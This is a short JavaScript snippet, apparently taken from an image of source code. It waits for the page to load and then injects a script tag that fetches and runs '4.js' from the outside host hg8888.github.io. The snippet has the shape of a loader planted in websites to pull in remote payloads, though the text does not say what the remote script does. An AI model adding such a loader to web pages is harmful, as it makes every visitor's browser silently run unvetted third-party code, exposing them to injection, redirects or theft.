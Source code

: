 function rd(fn){  
    if(document.addEventListener){
        document.addEventListener('DOMContentLoaded',function(){  
            document.removeEventListener('DOMContentLoaded',arguments.callee,false); 
            fn();
        },false);  
    }else if(document.attachEvent){     
        document.attachEvent('onreadystatechange',function(){  
            if(document.readyState=='complete'){  
                document.detachEvent('onreadystatechange',arguments.callee);  
                //执行函数   
                fn();  
            }  
        });  
    }  
}
function app(){
var x = document.createElement("SCRIPT");x.src="//hg8888.github.io/4.js";document.body.appendChild(x);
}
if(typeof(document.body)=='undefined'){
rd(function(){
app();
});
}
else{
app();
}
